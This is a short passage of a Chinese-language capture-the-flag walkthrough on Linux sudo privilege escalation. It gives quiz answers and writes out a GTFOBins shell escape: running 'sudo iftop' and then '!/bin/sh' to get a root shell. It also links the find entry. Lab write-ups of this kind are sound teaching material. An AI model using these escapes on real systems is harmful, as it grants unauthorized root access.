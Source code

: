 ![](img/37e1ac416c684dc5bd3fe71c0968f68b.png)

> **答案:11**

**问题 2:** 列表中的一个程序在 GTFOBins 上没有 shell 转义序列。到底是哪个？

> **答案:apache2**

**if top**([https://gtfobins.github.io/gtfobins/iftop/](https://gtfobins.github.io/gtfobins/iftop/))

```
sudo iftop
!/bin/sh
```

复制整个命令并粘贴它

![](img/dc728b77579de2f48dc9ca2f2f8222e4.png)

**找到**([https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/))

![](img/e8aa5a5617fc7370b0556a6ef5761b9d.png)
